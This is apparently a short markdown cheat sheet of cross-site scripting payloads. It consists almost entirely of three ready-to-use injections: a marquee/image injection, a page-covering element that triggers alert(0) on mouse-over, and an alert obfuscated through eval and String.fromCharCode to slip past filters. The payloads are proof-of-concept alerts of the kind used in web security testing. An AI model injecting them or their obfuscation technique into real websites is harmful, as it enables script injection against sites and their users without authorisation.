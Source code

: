 # XSS payloads

```<marquee behavior="scroll" direction="left"><img src="<put image here>" width=“800” height=“600” alt="Natural" /></marquee>```

Scrolling marquee continuous

```style=width: 10000px; height: 10000px; position: absolute; top: 0; left: 0; z-index: 99999999" onmouseover=alert(0) ```

On mouse over that covers page by @landaire

```<script>eval(String.fromCharCode(97,108,101,114,116,40,39,49,39,41))</script> ```

Using eval and String.fromCharCode to encode/obfuscate alert(1). Converter can be found [here](http://www.binaryhexconverter.com/ascii-text-to-decimal-converter)
